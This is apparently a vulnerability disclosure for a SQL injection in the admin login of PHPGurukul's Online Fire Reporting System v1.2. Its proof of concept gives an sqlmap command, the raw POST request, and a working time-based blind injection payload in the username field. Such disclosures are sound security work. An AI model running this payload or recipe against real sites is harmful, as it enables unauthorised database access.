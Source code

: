 # SQLi vulnerability in Online Fire Reporting System v1.2 of file /admin/index.php

**vender**:

- Online Fire Reporting System

**SoftLink**:

- [Online Fire Reporting System Project in PHP- PHPGurukul](https://phpgurukul.com/online-fire-reporting-system-using-php-and-mysql/)

**Vulnerable File**

- /admin/index.php

**Version**

- V1.2

### POC

```bash
sqlmap -r request.txt --level 5 --batch
```



```http
POST /admin/ HTTP/1.1
Host: www.firereport.top
Cookie: PHPSESSID=vhqmp6o0p6p8lf7sscpqhrp6tf
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Origin: http://www.firereport.top
Referer: http://www.firereport.top/admin/
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept-Encoding: gzip, deflate
Content-Length: 33

username=1&inputpwd=1&login=login
```



![image-20250531184016046](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505311840133.png)

```
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=1' AND (SELECT 7844 FROM (SELECT(SLEEP(5)))ZsBh)-- Lnbc&inputpwd=1&login=login
---
```

